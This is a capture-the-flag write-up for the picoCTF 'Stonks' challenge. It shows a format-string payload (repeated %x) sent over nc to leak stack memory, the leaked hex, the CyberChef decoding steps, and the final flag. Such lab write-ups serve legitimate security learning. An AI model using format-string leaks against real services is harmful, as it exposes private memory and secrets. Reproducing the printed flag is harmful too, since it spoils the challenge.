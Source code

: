 
# Stonks

- `#Binary-Exploitation`
- I decided to try something no one else has before, I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's not secure
- file: `https://mercury.picoctf.net/static/7e71fc0d8cc3339bfad6bf408f7dc510/vuln.c`
- `nc mercury.picoctf.net 6989`
- hint: if you find my API key
- run `nc mercury.picoctf.net 6989` and get prompted to buy or view stonks
- enter 1, then lots of 'a' (hold down the A key) hit enter, see that we get random stonks and program exits
- look at the `vuln.c` file , looks like this vulnerability is a buffer overflow, enter `%p` as input after 1 in prompt. We get printed out `0x9426390` along with purchases of stonks. 
- rerun the program: 1, enter `%x` , copy and paste `%x` a bunch of times `%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x`, hit enter. program prints out `9d56470804b00080489c3f7ee8d80ffffffff19d54160f7ef6110f7ee8dc709d5518019d564509d564706f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3538613032356533ffae007df7f23af8f7ef6440df3af30010f7d85ce9`
- go to cyber chef -- https://gchq.github.io/CyberChef/
- paste, select / drag 'From Hex' and see flag but text needs to be cleaned up, look at ASCII table to se where flag starts, 0x7B = `{` and 0x7D =  `}` and then enter in search box 'Swap endianness' so it is above the 'From Hex' and see the flag in ASCII
- `picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}` 